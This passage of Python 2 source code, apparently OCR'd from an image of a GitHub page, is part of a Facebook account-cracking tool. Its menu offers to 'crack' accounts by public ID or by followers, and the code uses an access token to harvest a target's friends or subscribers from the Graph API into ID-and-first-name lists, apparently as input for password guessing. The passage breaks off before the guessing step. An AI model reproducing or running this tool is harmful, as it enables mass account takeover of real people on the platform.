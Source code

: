 		print("")
		print("\tToken not found ")
		time.sleep(1)
		menu_login()
	os.system("clear")
	print banner
	print("\033[1;97m[1]\033[1;92m Crack With Public ID/Link")
	print("\033[1;97m[2]\033[1;92m Crack With Followers ID/Links")
	print("\033[1;97m[0]\033[1;91m Direct Back")
	print(50*"-")
	crack_select()
def crack_select():
	select = raw_input("\033[1;92m[!]\033[1;93mChoose option:\033[1;97m ")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		print banner
		idt = raw_input("\033[1;97m[!] \033[1;92mPut ID/Username :\033[1;97m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			os.system('clear')
			print banner
			print("\033[1;97m[!]\033[1;92mTarget User : "+q["\033[1;97mname"])
		except KeyError:
			print("")
			print("\033[1;91mInvalid Link Or Friendlist Has Privact").center(50)
			print("")
			time.sleep(3)
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="2":
		os.system("clear")
		print banner
		idt = raw_input("\033[1;97m[!]\033[1;92m Put ID/Username :\033[1;97m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			os.system("clear")
			print banner
			print("\033[1;97m[!] \033[1;92mTarget User : "+q["\033[1;97mname"])
		except KeyError:
			print("\tInvalid id link")
			print("")
			raw_input(" Press enter to back")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?access_token="+token+"&limit=999999", headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="0":
	    menu()